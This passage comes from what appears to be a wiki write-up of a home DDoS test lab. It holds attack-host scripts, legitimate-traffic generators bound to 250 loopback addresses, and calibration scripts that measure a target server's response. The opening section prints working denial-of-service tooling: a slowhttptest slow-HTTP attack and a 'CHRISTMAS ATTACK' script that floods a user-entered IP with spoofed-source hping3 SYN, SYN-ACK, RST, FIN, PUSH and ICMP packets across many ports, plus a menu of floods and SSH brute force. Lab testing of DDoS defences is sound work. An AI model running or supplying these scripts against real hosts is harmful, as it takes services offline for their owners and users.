echo -en "Whos going to cry today (IP):"
read tarip
echo "################# STARTING THREADS ######################"

slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://$tarip/ -p 3
}}}

=== Custom Attacks ===

==== CHRISTMAS ATTACK ====

- A combination of layer-4 DDOS Attacks with variations in type of attacks and in packet sizes.

- This attack uses all available ports for generating attacks.

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-20
#! /bin/bash

echo
echo "###################### CHRISTMAS ATTACK: FLOOD COCKTAIL WITH SMART CHANGE ######################"
echo
echo -en "Whos REALLY Gona Bleed Today (IP):"
read tarip
echo
echo -en "Enter Smart Change Duration Period in Seconds:"
read speriod
echo
echo -en "HIT ENTER TO MAKE IT BLEED !!"
read thisisit
echo "################################### STARTING THREADS ##########################################"


while true
do
      ztep=$(echo $RANDOM | cut -c1-2)
      for i in $(seq 64 $ztep 1500)
      do
          packet=$i
          ## SYN TYPE
          hping3 $tarip -S -d $packet -p 21 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 22 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 25 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 53 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 80 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 111 --flood -I eth1 --rand-source &
          hping3 $tarip -S -d $packet -p 161 --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
          ## SYN-ACK TYPE
          hping3 $tarip -S -A -d $packet -p 21 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 22 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 25 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 53 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 80 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 111 --flood -I eth1 --rand-source &
          hping3 $tarip -S -A -d $packet -p 161 --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
          ## RST FLAG TYPE
          hping3 $tarip -R -d $packet -p 21 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 22 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 25 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 53 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 80 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 111 --flood -I eth1 --rand-source &
          hping3 $tarip -R -d $packet -p 161 --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
          ## FIN FLAG TYPE
          hping3 $tarip -F -d $packet -p 21 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 22 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 25 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 53 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 80 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 111 --flood -I eth1 --rand-source &
          hping3 $tarip -F -d $packet -p 161 --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
          ## PUSH FLAG TYPE
          hping3 $tarip -P -d $packet -p 21 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 22 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 25 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 53 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 80 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 111 --flood -I eth1 --rand-source &
          hping3 $tarip -P -d $packet -p 161 --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
          ## ICMP TYPES
          hping3 $tarip --icmp --flood -I eth1 --rand-source -C 5 &
          hping3 $tarip --icmp --flood -I eth1 --rand-source &
sleep $speriod
          pkill hping3
      done
done
}}}

=== Creating The Combined List ===

{{{
root@The-SWARM:~# cat /usr/bin/list
#! /bin/bash
echo
echo "##### ATTACKS CONFIGURED:"
echo
echo "Layer-4 DOS Attacks:"
echo "--------------------"
echo "ATTACK-1  : SYN flood"
echo "ATTACK-2  : SYN-ACK flood"
echo "ATTACK-3  : Random (but identical across packet) payload (20 bytes payload)"
echo "ATTACK-4  : RST flood"
echo "ATTACK-5  : Synonymous payload (20 bytes payload) with spoofed source of victim itself"
echo "ATTACK-6  : SSH Brute Force"
echo "ATTACK-7  : Random (but identical across packet) UDP payload (20 bytes payload)"
echo "ATTACK-8  : Fragmentation Random Payload - UDP PAYLOAD"
echo "ATTACK-9  : DNS Payload to DNS port flood"
echo "ATTACK-10 : ICMP code-5 FLOOD"
echo "ATTACK-11 : ICMP code-5 FRAG FLOOD"
echo "ATTACK-12 : ICMP code-8 FLOOD"
echo
echo "Layer-7 DOS Attacks:"
echo "--------------------"
echo "ATTACK-13 : SLOW-LORIS HTTP ATTACK"
echo "ATTACK-14 : SLOW-POST HTTP ATTACK"
echo "ATTACK-15 : SLOW-READ HTTP ATTACK"
echo
echo "Custom Built DOS Attacks:"
echo "--------------------"
echo "ATTACK-20 : CHRISTMAS ATTACK"
echo
echo "ATTACk-CHECK : Check current Running Attacks"
echo "ATTACK-STOP  : Stop All Active Attacks"
echo
}}}

=== Creating The show Stopper ===

- Attack Triggers to check & Stop Current Attacks

==== Attack Check ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-CHECK 
#! /bin/bash

ps aux | grep -i hping3
ps aux | grep -i slowloris.pl
ps aux | grep -i slowhttptest
}}}

==== Attack Stop ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-STOP 
#! /bin/bash

pkill hping3
pkill hping3
pkill hping3
pkill hping3

pkill slowloris.pl
pkill slowloris.pl
pkill slowloris.pl
pkill slowloris.pl

pkill slowhttptest
pkill slowhttptest
pkill slowhttptest
pkill slowhttptest
}}}
-----

= The Client =

{{attachment:client.jpg}}

- The Client is the System which is going to Generate & Request Legitimate traffic back & Forth in correspondence with the victim.

== System Specifications ==

- The Client Server held the following Specs:

OS: Debian 8.1 (Jessie)

CPU: 4xCore

RAM: 4GB

Swap: 8GB

Disk: 500GB

== Preparing The Server ==

1- First Comes the network configuration, which includes Mang. Iface and the Data Traffic Iface

2- I have Created 250 Different Loopback Ifaces in order to simulate legitimate traffic from 250 different sources.

{{{
source /etc/network/interfaces.d/*

# The loopback network interface
auto lo
iface lo inet loopback

# The primary network interface
allow-hotplug eth0
iface eth0 inet static
         address 192.168.0.131
         netmask 255.255.255.0
#        gateway 192.168.0.1
         network 192.168.0.0
         broadcast 192.168.0.255
         dns-nameservers 192.168.0.4


allow-hotplug eth1
iface eth1 inet static
        address 172.4.1.2
        netmask 255.255.255.252
        gateway 172.4.1.1
        network 172.4.1.0
        broadcast 172.4.1.3


# STATIC-ROUTES
up route add -net 192.168.0.0/16 gw 192.168.0.1 dev eth0
up route add -net 10.172.99.0/24 gw 192.168.0.1 dev eth0

##########################  LEGIT IFACES
# LOOPBACKS
auto lo lo:1 lo:2 lo:3 lo:4 lo:5 lo:6 lo:7 lo:8 lo:9 lo:10 lo:11 lo:12 lo:13 lo:14 lo:15 lo:16 lo:17 lo:18 lo:19 lo:20 lo:21 lo:22 lo:23 lo:24 lo:25 lo:26 lo:27 lo:28 lo:29 lo:30 lo:31 lo:3
2 lo:33 lo:34 lo:35 lo:36 lo:37 lo:38 lo:39 lo:40 lo:41 lo:42 lo:43 lo:44 lo:45 lo:46 lo:47 lo:48 lo:49 lo:50 lo:51 lo:52 lo:53 lo:54 lo:55 lo:56 lo:57 lo:58 lo:59 lo:60 lo:61 lo:62 lo:63 l
o:64 lo:65 lo:66 lo:67 lo:68 lo:69 lo:70 lo:71 lo:72 lo:73 lo:74 lo:75 lo:76 lo:77 lo:78 lo:79 lo:80 lo:81 lo:82 lo:83 lo:84 lo:85 lo:86 lo:87 lo:88 lo:89 lo:90 lo:91 lo:92 lo:93 lo:94 lo:9
5 lo:96 lo:97 lo:98 lo:99 lo:100 lo:101 lo:102 lo:103 lo:104 lo:105 lo:106 lo:107 lo:108 lo:109 lo:110 lo:111 lo:112 lo:113 lo:114 lo:115 lo:116 lo:117 lo:118 lo:119 lo:120 lo:121 lo:122 lo
:123 lo:124 lo:125 lo:126 lo:127 lo:128 lo:129 lo:130 lo:131 lo:132 lo:133 lo:134 lo:135 lo:136 lo:137 lo:138 lo:139 lo:140 lo:141 lo:142 lo:143 lo:144 lo:145 lo:146 lo:147 lo:148 lo:149 lo
:150 lo:151 lo:152 lo:153 lo:154 lo:155 lo:156 lo:157 lo:158 lo:159 lo:160 lo:161 lo:162 lo:163 lo:164 lo:165 lo:166 lo:167 lo:168 lo:169 lo:170 lo:171 lo:172 lo:173 lo:174 lo:175 lo:176 lo
:177 lo:178 lo:179 lo:180 lo:181 lo:182 lo:183 lo:184 lo:185 lo:186 lo:187 lo:188 lo:189 lo:190 lo:191 lo:192 lo:193 lo:194 lo:195 lo:196 lo:197 lo:198 lo:199 lo:200 lo:201 lo:202 lo:203 lo
:204 lo:205 lo:206 lo:207 lo:208 lo:209 lo:210 lo:211 lo:212 lo:213 lo:214 lo:215 lo:216 lo:217 lo:218 lo:219 lo:220 lo:221 lo:222 lo:223 lo:224 lo:225 lo:226 lo:227 lo:228 lo:229 lo:230 lo
:231 lo:232 lo:233 lo:234 lo:235 lo:236 lo:237 lo:238 lo:239 lo:240 lo:241 lo:242 lo:243 lo:244 lo:245 lo:246 lo:247 lo:248 lo:249 lo:250
iface lo inet loopback

iface lo:1 inet static
        address 30.30.1.1
        netmask 255.255.255.0

iface lo:2 inet static
        address 30.30.2.1
        netmask 255.255.255.0

iface lo:3 inet static
        address 30.30.3.1
        netmask 255.255.255.0

....

iface lo:243 inet static
        address 30.30.243.1
        netmask 255.255.255.0

iface lo:244 inet static
        address 30.30.244.1
        netmask 255.255.255.0

iface lo:245 inet static
        address 30.30.245.1
        netmask 255.255.255.0

iface lo:246 inet static
        address 30.30.246.1
        netmask 255.255.255.0

iface lo:247 inet static
        address 30.30.247.1
        netmask 255.255.255.0

iface lo:248 inet static
        address 30.30.248.1
        netmask 255.255.255.0

iface lo:249 inet static
        address 30.30.249.1
        netmask 255.255.255.0

iface lo:250 inet static
        address 30.30.250.1
        netmask 255.255.255.0
}}} 

== Legitimate Traffic Generation ==

- In order to Generate Simultaneous Legitimate Services with Fluctuating bandwidth, the following has been created and used.

=== Legitimate HTTP ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-http
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
many=250
echo
touch /root/shockWave/LEGIT/temp-cluster/temp-http-300
echo "Cleaning HTTP Temp Cluster...[OK]"
rm -r /root/shockWave/LEGIT/temp-cluster/temp-http-*
echo

while true
do
check=$(ps aux | grep -i wget | grep -i "http:" | head -1 | grep -o "limit")
if [ -z "$check" ]
then
    for i in `seq 1 $many`;
    do
       mkdir /root/shockWave/LEGIT/temp-cluster/temp-http-$i > /dev/null 2>&1
       cd /root/shockWave/LEGIT/temp-cluster/temp-http-$i
       echo -en "                   ## Deploying HTTP Client $i/$many" \\r
       wget --bind-address=30.30.$i.1 --limit-rate=10K -r -p -l 2 -T 60 --random-wait --user-agent="Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.3) Gecko/2008092416 Firefox/3.0.3" --convert-links http://10.10.10.2/ > /dev/null 2>&1 &
       sleep 0.1
    done
else
    echo "                   Waiting for Active Clients..."
fi
sleep 1
done


# --bind-address=ADDRESS    bind to ADDRESS (hostname or IP) on local host.
# --limit-rate=RATE         limit download rate to RATE.
# -p,  --page-requisites    get all images, etc. needed to display HTML page.
# -r,  --recursive          specify recursive download.
# -l,  --level=NUMBER       maximum recursion depth (inf or 0 for infinite).
# -T,  --timeout=SECONDS    set all timeout values to SECONDS.
# --random-wait             wait from 0.5*WAIT...1.5*WAIT secs between retrievals.
# --user-agent=AGENT        identify as AGENT instead of Wget/VERSION.
# --convert-links           make links in downloaded HTML or CSS point to local files.
}}} 

=== Legitimate HTTPS ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-https
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
many=250
echo
touch /root/shockWave/LEGIT/temp-cluster/temp-httpS-300
echo "Cleaning HTTPS Temp Cluster...[OK]"
rm -r /root/shockWave/LEGIT/temp-cluster/temp-httpS-*


while true
do
check=$(ps aux | grep -i wget | grep -i "https:" | head -1 | grep -o "limit")
if [ -z "$check" ]
then
    for i in `seq 1 $many`;
    do
       mkdir /root/shockWave/LEGIT/temp-cluster/temp-httpS-$i > /dev/null 2>&1
       cd /root/shockWave/LEGIT/temp-cluster/temp-httpS-$i
       echo -en "                                                        ## Deploying HTTPS Client $i/$many" \\r
       wget --bind-address=30.30.$i.1 --limit-rate=10K -r -p -l 2 -T 60 --no-check-certificate --random-wait --user-agent="Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.3) Gecko/2008092416 Firefox/3.0.3" --convert-links https://10.10.10.2/  > /dev/null 2>&1 &
       sleep 0.1
    done
else
    echo "                                                        Waiting for Active Clients..."
fi
sleep 1
done


# --bind-address=ADDRESS    bind to ADDRESS (hostname or IP) on local host.
# --limit-rate=RATE         limit download rate to RATE.
# -p,  --page-requisites    get all images, etc. needed to display HTML page.
# -r,  --recursive          specify recursive download.
# -l,  --level=NUMBER       maximum recursion depth (inf or 0 for infinite).
# -T,  --timeout=SECONDS    set all timeout values to SECONDS.
# --random-wait             wait from 0.5*WAIT...1.5*WAIT secs between retrievals.
# --user-agent=AGENT        identify as AGENT instead of Wget/VERSION.
# --convert-links           make links in downloaded HTML or CSS point to local files.
}}}

=== Legitimate FTP ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-ftp 
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
rm -r /root/shockWave/LEGIT/temp-cluster/FTP > /dev/null 2>&1
mkdir /root/shockWave/LEGIT/temp-cluster/FTP > /dev/null 2>&1
cd /root/shockWave/LEGIT/temp-cluster/FTP
sleep 1
n=1
many=250
while true
do
    for i in `seq 1 $many`;
    do
       echo "-> FTP GET Count $n"
       wget --bind-address=30.30.$i.1 ftp://core:core@10.10.10.2/ftp-files/test1m > /dev/null 2>&1
       sleep 0.5
       let n=n+1
    done
done
}}}

=== Legitimate SMTP ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-smtp 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/LEGIT/temp-cluster
rm ps aux > /dev/null 2>&1
(mkfifo /var/spool/postfix/public/pickup ps aux | grep mail kill sudo /etc/init.d/postfix restart) > /dev/null 2>&1
service postfix restart > /dev/null 2>&1
sleep 1

n=1
postsuper -d ALL deferred
postsuper -d ALL
while true
do
    echo "-> MAILS SENT: $n"
    echo "BLA BLA BLA BLA BLA BLA BLA BLA BLA" | mail -s "TEST SUBJECT" -a "From: you@example.com" test@victim.com
    sleep 0.5
    let n=n+1
done
}}}

=== Legitimate DNS ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-dns 
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/LEGIT/temp-cluster
sleep 1
n=1
many=250
while true
do
    for i in `seq 1 $many`;
    do
       echo "-> DNS RUN $n"
       dig -b 30.30.$i.1 @10.10.10.2 core.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 gw.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 control.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 ns.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 dns.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 media.myhome.net > /dev/null 2>&1
       dig -b 30.30.$i.1 @10.10.10.2 lb.myhome.net > /dev/null 2>&1
       sleep 0.5
       let n=n+1
    done
done
}}}

=== Legitimate ICMP ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat start-ping 
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/LEGIT/temp-cluster
sleep 1
n=1
many=250
while true
do
    for i in `seq 1 $many`;
    do
       echo -en "                                                                                            ## Ping Count $n" \\r
       ping -c 1 -I 30.30.$i.1 10.10.10.2 > /dev/null 2>&1
       sleep 0.1
       let n=n+1
    done
done
}}}

== Legitimate Traffic Spool up ==

=== Legitimate Mix Start ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat START-MIX 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/LEGIT/temp-cluster

/root/shockWave/LEGIT/start-http &
/root/shockWave/LEGIT/start-https &
/root/shockWave/LEGIT/start-smtp &
/root/shockWave/LEGIT/start-dns &
/root/shockWave/LEGIT/start-ping &
/root/shockWave/LEGIT/start-ftp &
}}}

=== Legitimate Mix Stop ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat KILL-MIX 
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

#KILL LOOP ITSELF IF NEEDED
#pkill loop-for-ram && pkill loop-for-ram && pkill loop-for-ram && pkill loop-for-ram && pkill loop-for-ram

pkill start-http && pkill start-http && pkill start-http && pkill start-http && pkill start-http && pkill start-http

pkill start-https && pkill start-https && pkill start-https && pkill start-https && pkill start-https && pkill start-https

pkill start-smtp && pkill start-smtp && pkill start-smtp && pkill start-smtp && pkill start-smtp && pkill start-smtp

pkill start-dns && pkill start-dns && pkill start-dns && pkill start-dns && pkill start-dns && pkill start-dns

pkill start-ping && pkill start-ping && pkill start-ping && pkill start-ping && pkill start-ping && pkill start-ping

pkill start-ftp && pkill start-ftp && pkill start-ftp && pkill start-ftp && pkill start-ftp && pkill start-ftp

pkill wget && pkill wget && pkill wget && pkill wget && pkill wget && pkill wget

pkill nslookup && pkill nslookup && pkill nslookup && pkill nslookup && pkill nslookup && pkill nslookup

pkill ping && pkill ping && pkill ping && pkill ping && pkill ping && pkill ping

swapoff -a && swapon -a
}}}

=== Legitimate Continuous Loop ===

{{{
root@DDOS-Client:~/shockWave/LEGIT# cat loop-for-ram 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/LEGIT/temp-cluster

while true
do
    /root/shockWave/LEGIT/START-MIX &
    sleep 300
    /root/shockWave/LEGIT/KILL-MIX
done
}}}

-----

= Calibration Setup =

{{attachment:Calib.jpg}}

- In order to Calibrate the performance & response times of the victim, Calibration tools has been built on the Client.

- The Calibration uses 10 Different Clients in Data collection each sourced from unique IP.

== Calibration Mechanism ==

- Tools & Scripts that I used & Created for Calibrating the Server Performance

=== Calibrate HTTP ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-http
#! /bin/bash

#TIMES OUT AT MAX 25 SECONDS

calibT="http://192.168.0.66/"

for i in {1..10}
do
  siege -c 1000 -r 1 $calibT > /root/shockWave/Calibration/temp-cluster/http-$i.calib 2>&1
  client=$(cat /root/shockWave/Calibration/temp-cluster/http-$i.calib | grep -i "Transaction rate:" | awk '{print $3}')
  #value=$(echo $client*1000 | bc )
  value=$(echo $client)
  echo HTTP Client$i is $value Trans/sec

  echo $value > /root/shockWave/Calibration/DATA-POINTS/http/http-$i.DP
done
}}}

=== Calibrate HTTPS ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-https 
#! /bin/bash

#TIMES OUT AT MAX 25 SECONDS

calibT="https://192.168.0.66/"

for i in {1..10}
do
  siege -c 1000 -r 1 $calibT > /root/shockWave/Calibration/temp-cluster/httpS-$i.calib 2>&1
  client=$(cat /root/shockWave/Calibration/temp-cluster/httpS-$i.calib | grep -i "Transaction rate:" | awk '{print $3}')
  #value=$(echo $client*1000 | bc )
  value=$(echo $client)
  echo HTTPS Client$i is $value Trans/sec
  echo $value > /root/shockWave/Calibration/DATA-POINTS/https/https-$i.DP
done
}}}

=== Calibrate FTP ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-ftp
#! /bin/bash

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/Calibration/temp-cluster

calibT="192.168.0.66"
#calibS='30.30.$i.1'
calibS="192.168.0.131"

for i in {1..10}
do
  wget --bind-address=$calibS ftp://core:core@$calibT/ftp-files/test1m -O ftp-$i.file 2> /root/shockWave/Calibration/temp-cluster/ftp-$i.calib
  client=$(cat /root/shockWave/Calibration/temp-cluster/ftp-$i.calib | grep -i "100%" | awk '{print $4}' | cut -d "=" -f2 | cut -d "s" -f1)
  value=$(echo $client*1000 | bc )
  echo FTP Client$i is $value MilliSEC
  echo $value > /root/shockWave/Calibration/DATA-POINTS/ftp/ftp-$i.DP
done
}}}

=== Calibrate SMTP ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-smtp 
#! /bin/bash

#TIMES OUT AT MAX 25 SECONDS

calibT="192.168.0.66:25"

for i in {1..10}
do
  { time smtp-source -s 40 -l 10120 -m 50 -c -f root@client.com -t root@victim.com $calibT ; } &> /root/shockWave/Calibration/temp-cluster/smtp-$i.calib
  client=$(cat /root/shockWave/Calibration/temp-cluster/smtp-$i.calib | grep -i "real" | awk '{print $2}' | cut -d "m" -f2 | cut -d "s" -f1)
  value=$(echo $client*1000 | bc )
  echo SMTP Client$i is $value MilliSEC
  echo $value > /root/shockWave/Calibration/DATA-POINTS/smtp/smtp-$i.DP
done
}}}

=== Calibrate DNS ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-dns
#! /bin/bash

#TIMES OUT AT MAX 25 SECONDS

calibT="192.168.0.66"
#calibS='30.30.$i.1'
calibS="192.168.0.131"

for i in {1..10}
do
  dig -b $calibS @$calibT core.myhome.net    > /root/shockWave/Calibration/temp-cluster/dns1-$i.calib 2>&1
  dig -b $calibS @$calibT gw.myhome.net      > /root/shockWave/Calibration/temp-cluster/dns2-$i.calib 2>&1
  dig -b $calibS @$calibT control.myhome.net > /root/shockWave/Calibration/temp-cluster/dns3-$i.calib 2>&1
  dig -b $calibS @$calibT ns.myhome.net      > /root/shockWave/Calibration/temp-cluster/dns4-$i.calib 2>&1
  dig -b $calibS @$calibT dns.myhome.net     > /root/shockWave/Calibration/temp-cluster/dns5-$i.calib 2>&1
  dig -b $calibS @$calibT media.myhome.net   > /root/shockWave/Calibration/temp-cluster/dns6-$i.calib 2>&1
  dig -b $calibS @$calibT lb.myhome.net      > /root/shockWave/Calibration/temp-cluster/dns7-$i.calib 2>&1
  let value=0
  for j in {1..7}
  do
    client=$(cat /root/shockWave/Calibration/temp-cluster/dns$j-$i.calib | grep -i "Query time:" | awk '{print $4}')
    clres=$(echo $client)
    let value=value+$clres
  done
  echo DNS Client$i is $value MilliSEC
  echo $value > /root/shockWave/Calibration/DATA-POINTS/dns/dns-$i.DP
done
}}}

=== Calibrate ICMP ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat calib-ping 
#! /bin/bash

#TIMES OUT AT MAX 25 SECONDS

calibT="192.168.0.66"
#calibS="30.30.$i.1"
calibS="192.168.0.131"

for i in {1..10}
do
  ping -c 1 -I $calibS $calibT > /root/shockWave/Calibration/temp-cluster/ping-$i.calib 2>&1
  client=$(cat /root/shockWave/Calibration/temp-cluster/ping-$i.calib | grep -i "time=" | awk '{print $7}' | cut -d "=" -f2)
  value=$(echo $client*1000 | bc)
  echo ICMP Client$i is $value MicroSEC
  echo $value > /root/shockWave/Calibration/DATA-POINTS/icmp/icmp-$i.DP 
done
}}}

== Calibration Spool up ==

- To start Continuous calibration 

=== Calib-Start-Mix ===

{{{
root@DDOS-Client:~/shockWave/Calibration# cat CALIB-MIX 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cd /root/shockWave/Calibration/temp-cluster

/root/shockWave/Calibration/calib-http &
/root/shockWave/Calibration/calib-https &
/root/shockWave/Calibration/calib-smtp &
/root/shockWave/Calibration/calib-dns &
/root/shockWave/Calibration/calib-ping &
/root/shockWave/Calibration/calib-ftp &
}}}

Then Cron it over whatever time period needed.

{{{
* * * * * /root/shockWave/Calibration/CALIB-MIX
}}}

== Data Points Collectors ==

- Create the Collectors which will retrieve the Data Points Values

- The following Script was used to create another '''''67''''' Scripts.

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat MAKE.CREATE 
#! /bin/bash


for i in {1..10}
do
echo "#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd icmp/
cat icmp-$i.DP

" > make-icmp-$i
done
}}}

=== HTTP Collector for Clients 1 through 10 ===

{{{
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd http/
cat http-1.DP
}}}

=== HTTPS Collector for Clients 1 through 10 ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-https-1
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd https/
cat https-1.DP
}}}

=== FTP Collector for Clients 1 through 10 ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-ftp-1
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd ftp/
cat ftp-1.DP
}}}

=== SMTP Collector for Clients 1 through 10 ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-smtp-1
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd smtp/
cat smtp-1.DP
}}}

=== DNS Collector for Clients 1 through 10 ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-dns-1
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd dns/
cat dns-1.DP
}}}

=== ICMP Collector for Clients 1 through 10 ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-icmp-1
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd icmp/
cat icmp-1.DP
}}}

== Average of Average Data Points ==

- To create the Average of Average Data-Points:

=== HTTP Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-http-AVG 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd http/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

=== HTTPS Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-https-AVG 
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd https/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

=== FTP Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-ftp-AVG  
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd ftp/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

=== SMTP Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-smtp-AVG  
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd smtp/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
